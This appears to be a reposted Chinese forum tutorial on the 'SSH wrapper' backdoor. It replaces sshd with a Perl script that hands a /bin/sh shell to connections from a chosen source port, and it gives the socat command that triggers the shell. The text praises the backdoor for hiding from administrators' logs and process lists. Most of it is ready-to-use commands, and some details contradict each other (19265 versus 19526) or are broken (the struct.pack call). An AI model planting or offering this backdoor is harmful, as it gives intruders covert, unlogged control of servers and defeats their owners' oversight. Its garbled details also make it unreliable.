


# SSH wrapper

> 原文：[https://www.zhihuifly.com/t/topic/3485](https://www.zhihuifly.com/t/topic/3485)

# SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中。

```
cd /usr/sbin/
mv sshd ../bin
vim sshd //编辑sshd内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); // \x00\x00LF是19526的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart 
```

在本机执行

```
socat STDIO TCP4:127.0.0.1:22,sourceport=19265 
```



可以看到我利用socat限制了本地端口19526访问server的22端口反回一个sh窗。

修改端口可以修改..LF

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer) 
```



优点：

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。